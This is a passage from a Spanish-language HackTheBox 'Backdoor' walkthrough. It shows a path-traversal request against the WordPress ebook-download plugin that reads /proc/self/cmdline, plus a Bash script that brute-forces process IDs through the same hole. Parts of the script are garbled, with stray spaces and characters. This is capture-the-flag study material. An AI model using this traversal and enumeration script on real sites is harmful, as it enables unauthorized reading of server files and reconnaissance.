 - cat /proc/self/cmdline
cat/proc/self/cmdline

- cat /proc/self/cmdline | xxd
00000000: 6361 7400 2f70 726f 632f 7365 6c66 2f63  cat./proc/self/c
00000010: 6d64 6c69 6e65 00                        mdline.

en resumen, en cuanto a procesos que corren en el systema con el archivo cmdline podemos llegar a tratar de ver que fue lo que invoco ese proceso

- curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o- | xxd

Parece imprimir el parámetro dado tres veces y luego, sin interrupción, los resultados, que incluyen \ x00donde quisiera espacios. 
Luego termina en < script> window.close() < /script>. 

Puedo usar tr para reemplazar los valores nulos con espacios en blanco, y cut para eliminar el principio y el final: 

- curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline | tr ' \ 000' ' ' | cut -c115- | rev | cut -c32- | rev
/usr/sbin/apache2 -k start

se descompone como:

    tr '\ 000' ' '- reemplazar nulos con espacios
    cut -c115-comience en el carácter 115 e imprima el resto. Notaré que 115 es tres veces la longitud del parámetro más 1.
    rev | cut -c32- | rev- invertir la cadena, comenzar con 32 caracteres y luego invertir nuevamente, eliminando efectivamente los últimos 31 caracteres.

Este recorrido también funciona con caminos absolutos, por lo que ebookdownloadurl=/proc/self/cmdline. 
Puedo crear un script Bash rápido a partir de esto para recorrer una variedad de pids e intentar encontrar procesos: 
creamos el archiv ./brute_processes.sh  

#!/bin/bash

    for i in $(seq 1 50000); do

        path="/proc/$ {i}/cmdline"
        skip_start=$(( 3 * $ {#path} + 1))
        skip_end=32

        res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=$ {path}ne -o- | tr ' \ 000' ' ')
        output=$(echo $res | cut -c $ {skip_start}- | rev | cut -c $ {skip_end}- | rev)
        if [[ -n "$output" ]]; then
            echo "$ {i}: $ {output}"
        fi

    done

esto hace lo que mostré arriba, capturando los resultados con nulos reemplazados en res, luego cortando el inicio y el final y guardando 
como output y finalmente imprimiendo el pid y la línea de comando si está allí. 
El script borra los primeros 1000 procesos en aproximadamente un minuto, lo que es suficiente para detectar el PID 851: 
